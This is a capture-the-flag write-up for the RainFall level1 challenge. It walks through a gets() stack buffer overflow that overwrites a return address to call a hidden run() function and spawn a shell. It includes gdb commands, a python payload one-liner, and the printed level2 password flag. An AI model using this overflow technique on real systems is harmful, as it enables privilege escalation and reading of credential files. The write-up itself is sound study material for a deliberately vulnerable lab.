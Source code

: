 # level1

For the level1 we have a script called level1 made by level2. After analyzing it in ghidra we can see that the main is extremely basic:

```c
void main(void)
{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

We also can see in the man of gets that this is a function that shouldn't be used at all coast because of it's overflow vulnerabily which sounds delightful for us.

We also can see that local_50 is a buffer of 76 character and indeed when executing level1, if we enter 76 or more characters, we get a segfault. (At 76 characters precisely we get an Illegal instruction to be precise).

After some reaserches on Buffer Overflow exploits we get to learn how to use gdb, a debugger program apparently that allows us to have a ton of details on the program.

Some commands for gdb launched with gdb ./level1:

```
r                   => run the program (run works too)
b main              => set a breakpoint when entering main (can also be an hexadecimal address to stop at a specific line)
disas main          => disassemble a specific functions in order to obtains more infos such as addresses
ni                  => next instruction to go 1 by 1, line by line through the code
info registers      => show all values of registers variables
x/100xb $esp        => show the 100 first spaces of the stack (esp), can be an address 0xb0000000-20 to read 20 chars before the address
p main              => get the address of the main function
info proc mappings  => show starting address for heap, stack...etc
```

After checking a little more the code on ghidra, we also found a function called run(), that is not used anywhere:

```c
void run(void)
{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

This seems very convenient, so we have to call this function somehow.
After some researches we understood that in the stack the code will be executed in some ways that after the buffer, will be the address of the return function. (where the function has to return to come back to main), if we replaced the address of the return function by the address of run() function, then instead of coming back to main, run would be called and the shell would be executed woth level2 rights.

```sh
(gdb) p run
$2 = {<text variable, no debug info>} 0x8048444 <run>
```

We now have the address of run, so we tried to inject in a file 'A' char 76 times and then the address of run function in hexadecimal so:

```sh
echo $(python -c "print('\x90'*76+'\x44\x84\x04\x08')") > /tmp/payload
```

The address has to be written upside down in order to be understood as a pointer address (this is called Little Endian format).
Executing it in gdb we get this:

```sh
(gdb) run < /tmp/payload
Starting program: /home/user/level1/level1 < /tmp/payload
Good... Wait what?

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

So the line is printed, but no shell opened. We tried different things to end up with:

```sh
level1@RainFall:~$ cat /tmp/payload -| ./level1
Good... Wait what?
> 
```

The - at the end of the cat is to leave stin open, so the shell can be opened.

```sh
> cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
